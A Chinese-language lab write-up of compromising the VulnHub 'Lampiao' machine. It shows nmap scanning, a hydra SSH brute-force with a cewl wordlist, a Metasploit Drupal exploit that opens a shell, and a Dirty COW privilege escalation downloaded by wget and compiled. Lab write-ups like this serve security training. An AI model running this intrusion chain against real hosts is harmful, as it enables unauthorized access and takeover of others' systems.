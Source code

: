 ```yaml
---
title: 靶场练习-Lampiao
tags:
  - 信息安全
readmore: true
abbrlink: e94dd49a
date: 2023-02-23 13:07:58
---
```


### 环境搭建

访问官网：https://www.vulnhub.com/entry/lampiao-1,249/

页面向下滑找到 Download 下载靶场；下载成功后，启动虚拟机，单击“打开”选项，找到刚刚下载并解压好的靶场文件，等待导入完成；

完成后启动靶机，可以看到只有一个登录窗口，此时靶机已经成功运行。

启动 kali 虚拟机，并同时设置两个机器的网络配置为 NAT 模式；

这样可以使所有的虚拟机共同处在一个独立的网段（和物理机不在同一个网段），方便后续探索靶机 ip 时更快的找到靶机 ip；

<!-- more -->

### 获取 shell

由于靶机无法直接登录，所以我们也无法获取靶机的任何信息，最重要的就是要先访问靶机；

#### nmap 扫描

nmap： nmap（Network Mapper）是一款开源免费的针对大型网络的端口扫描工具，nmap可以检测目标主机是否在线、主机端口开放情况、检测主机运行的服务类型及版本信息、检测操作系统与设备类型等信息。

官方网站：https://nmap.org/

使用 nmap 扫描整个网段，找到靶机的 ip 地址：

```bash
nmap -sS -Pn 192.168.19.0/24
# -sS 半开放扫描，打开一个不完全的 TCP 连接，速度较快且不容易被发现
# -Pn 穿透防火墙进行扫描，有的防火墙禁止 ping 命令，可以使用此选项
# 要扫描的网段，24指的是32位二进制的前24位用 “1” 表示，并变化后面的几位来进行扫描
```

 ![](https://pic.mewhz.com/lampiao/1.png)

发现这个 ip 的 80 端口是开放的，去访问这个网站，发现是一个静态页面；

进一步扫描 ip 开放的所有端口：

```bash
nmap -T4 -p 1-65535 192.168.19.136
# -T4 设置扫描的时间模板为 T4， 可以更快的扫描
# -p 设置扫描的端口范围，1-65535 是所有的端口
```

 ![](https://pic.mewhz.com/lampiao/2.png)

发现开启着 ssh 服务(22端口)，80 端口和 1898 端口，尝试访问 1898端口。

#### 爆破用户名密码 (第一种获取 shell 方法)

访问 1898 端口后，尝试都点击一下，在 url node = 1 中尝试修改为 2 并访问:

```bash
http://192.168.19.136:1898/?q=node/2
```

 ![](https://pic.mewhz.com/lampiao/3.png)

发现一个 m4a 和 png 文件，扫描二维码发现没有有用的信息，听 m4a 文件可以得到用户名为

>tiago

得到了用户名，可以尝试使用 cewl 制作字典来进行爆破:

```bash
cewl http://192.168.19.136:1898/?q=node/1 -w password.txt
# cewl 可以探索网站的内容并生成一个字典文件
# -w 结果写入文件
```

 ![](https://pic.mewhz.com/lampiao/4.png)

使用 hydra 工具：

```bash
hydra -l tiago -P password.txt 192.168.19.136 ssh
# -l: 指定用户名进行爆破
# -P 用于指定密码字典 (大写)
# ssh: 指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
```

成功得到用户名密码：username: **tiago**   password: **Virgulino**

![](https://pic.mewhz.com/lampiao/5.png)

使用 ssh 命令成功登录：

```bash
ssh tiago@192.168.19.136
```

![](https://pic.mewhz.com/lampiao/6.png)

#### 漏洞利用 (第二种获取 shell 方法)

进入网站后，先使用 dirsearch 命令扫描一下目录：

```bash
dirsearch -u 192.168.19.136:1898
```

![](https://pic.mewhz.com/lampiao/7.png)

发现 CHANGELOG.txt 文件，并通过该文件得到了 Drupal 的版本，百度搜索发现该版本存在漏洞，使用 msfconsole 利用漏洞；

msfconsole：集成了很多漏洞的利用的脚本，并且使用起来很简单的网络安全工具

```bash
msfconsole
# 如果启动很慢，可以在 kali 中直接启动 metasploit framework
search Drupal
# 启动后输入该命令搜索 Drupal 相关漏洞
```

![](https://pic.mewhz.com/lampiao/8.png)

找到对应的漏洞

```bash
use 1
# 使用攻击模块 1
set rhosts 192.168.19.136
# 设置目标 ip
set rport 1898
# 设置目标端口
show options
# 查看信息是否正确
run
# 运行攻击模块
```

成功拿到对应的 shell

![](https://pic.mewhz.com/lampiao/9.png)

执行shell获取交互式命令，由于我们获取的shell并不是一个具有完整交互的shell，对于已经安装了python的系统，我们可以使用 python提供的pty模块，只需要一行脚本就可以创建一个原生的终端，命令如下：

```python
shell
# shell 获取目标主机的远程命令行shell，使用exit退出当前的shell
python -c 'import pty;  pty.spawn("/bin/bash")'
# -c 可以在命令行调用 python 代码
# pty 伪终端工具
# pty.spawn 生成一个进程，并将其控制终端连接到当前进程的标准 io。
```

![](https://pic.mewhz.com/lampiao/10.png)

### 提权

获取 shell 后发现是一个低权限的用户，所以我们需要提权。查看 linux 内核版本：

```bash
uname -r
# 用于显示操作系统的信息
# -r 显示操作系统的发行编号
```

![](https://pic.mewhz.com/lampiao/11.png)

发现该版本存在脏牛漏洞，可以使用脏牛(Dirty Cow)漏洞进行提权；

```bash
searchsploit dirty
# searchsploit 是一个用于Exploit-DB的命令行搜索工具
```

ExploitDB是一个面向全世界黑客的漏洞提交平台；https://www.exploit-db.com

![](https://pic.mewhz.com/lampiao/12.png)

使用 40847.cpp 作为提权的代码文件，首先在本机找到该文件

```bash
cd /usr/share/exploitdb/exploits/linux/local/
cp 40847.cpp /tmp
cd /tmp
```

然后将里面内容复制到靶机上，可以直接使用复制粘贴，也可以使用 xftp 或者 kali 使用 python 开启 web 服务，靶机通过 wget 命令进行下载。

```python
python -m http.server 8080
# 开启 8080 端口，kali 使用
wget 192.168.19.130:8080/40847.cpp
# 下载文件，文件保存在本地
```

下载后使用 g++ 进行编译

```bash
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
 # g++ 是C&C++ 的编译器
 # -Wall 允许发出GCC能够提供的所有有用的警告
 # -pedantic 允许发出ANSI/ISO C标准所列出的所有警告
 # -O2 编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高
 # -std=c++11 就是用按C++2011标准来编译
 # -pthread 在Linux中要用到多线程时，需要链接pthread库
 # -o dcow gcc生成的目标文件,名字为dcow
 ./dcow 
 # 执行编译后的文件
```

获取到 root 用户密码：dirtyCowFun

```bash
su root
# 切换 root 用户，输入密码后成功登录
```

在 root 目录下成功找到 flag.txt

![](https://pic.mewhz.com/lampiao/13.png)

---

### 参考资料

[VulnHub-Lampiao 靶场渗透测试](https://www.cnblogs.com/l2sec/p/14403481.html)

[黑客工具之hydra详细使用教程](https://zhuanlan.zhihu.com/p/397779150)

[记一次lampiao靶机渗透](https://zhuanlan.zhihu.com/p/349079469)

[【工具使用】--- cewl](https://blog.csdn.net/qq_43168364/article/details/111773051)

[nmap 常用参数](https://blog.csdn.net/tryheart/article/details/108245986)

[msfconsole的使用 ](https://www.cnblogs.com/Junglezt/p/16009926.html)

[Python 3.10.0 官方文档(全)](https://www.bookstack.cn/books/python-3.10.0-zh)

[网络安全nmap扫描端口命令详解linux网络探测](https://www.920vip.net/article/66)
